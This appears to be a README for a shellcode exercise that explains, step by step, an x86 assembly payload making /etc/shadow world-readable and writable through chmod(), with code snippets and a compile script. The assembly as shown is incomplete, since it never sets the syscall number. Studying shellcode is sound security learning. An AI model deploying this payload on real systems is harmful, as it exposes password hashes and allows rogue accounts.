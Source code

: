 # chmod_shadow
The code changes the permissions of the /etc/shadow file to o666, so it will be readable and writable for the normal user. This way we can read the password or add an user to login.  
  
To do this, we are using the chmod() syscal, which can be found on the man page. The function has only 2 parameters, one for the filename and one for the file mode.    
```C++
int chmod(const char *pathname, mode_t mode);
```

First we need to push the string '//etc/shadow' to the stack, for the first parameter to use it.  
Like so:  
```asm
xor edx, edx
push edx                ; string terminator

; //etc/shadow
push 0x776f6461
push 0x68732f63
push 0x74652f2f
mov ebx, esp            ; get the string from the stack
```
  
Now we just simply set the second parameter, o666 is a number that has no zero's, so that comes conveniently!
```asm
mov cx, 0666o           ; 666 mode
int 0x80
``` 

Now we compile the code, I created a small bash script for that, so we can be faster with it.  
```bash
# compile.sh
nasm -f elf chmod_shadow.asm && ld -o chmod_shadow chmod_shadow.o -m elf_i386 && strace ./chmod_shadow
``` 
  
We just simply call ./compile.sh  
  
I'm not gonna explain the tests, because I already explained it a few dozen times in the other projects.
